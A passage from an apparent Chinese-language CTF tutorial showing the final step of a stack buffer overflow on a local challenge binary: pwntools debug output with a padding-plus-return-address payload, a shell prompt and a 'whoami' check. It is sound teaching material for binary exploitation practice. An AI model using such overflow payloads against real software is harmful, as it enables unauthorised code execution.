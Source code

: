 然后用python解释器运行这个脚本就可以完成pwn

```python
root@Aurora:/home/code/pwn/challenge/1 # ./a.py
[+] Starting local process './a': pid 10160
[DEBUG] Sent 0x31 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000020  61 61 61 61  61 61 61 61  62 62 62 62  82 91 04 08  │aaaa│aaaa│bbbb│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x33 bytes:
    "Hello,I'm dyf.\n"
    '\n'
    'QAQ\n'
    '\n'
    'Do you have something to say?\n'
Hello,I'm dyf.

QAQ

Do you have something to say?
$ 
```

按照以往的传统，我们都会输入一句

```bash
>whoami
room
```

那么一次利用radare2的一次缓冲区溢出漏洞利用就完成了。